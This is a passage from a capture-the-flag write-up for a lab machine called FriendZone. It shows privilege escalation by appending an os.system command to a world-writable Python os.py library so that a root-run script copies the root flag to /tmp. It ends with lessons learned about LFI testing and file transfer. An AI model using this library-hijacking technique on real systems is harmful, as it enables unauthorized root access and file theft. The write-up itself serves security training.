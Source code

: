 Half of it is commented out, it boils down to this code
```python
!/usr/bin/python
import os

to_address = "admin1@friendzone.com"
from_address = "admin2@friendzone.com"
print "[+] Trying to send email to %s"%to_address
```

From this, there is only one item left to look at hijacking, and thats the python libraries used within.

Sure enough, we can write to the os module

```
friend@FriendZone:/opt/server_admin$ ls -al /usr/lib/python2.7/os.py
-rwxrwxrwx 1 root root 25910 Jan 15  2019 /usr/lib/python2.7/os.py
```

Adding this to the bottom of the file lets us get the root flag

```
import os

os.system('cat /root/root.txt > /tmp/root.txt')
```

## Lessons Learned
* Update `/etc/hosts` as you enumerate subdomains
  * add hints from webpages too
* Use php filtering when testing for LFI
* Fall back to old methods for transfering files if needed
  * don't have to use simplehttp server every time

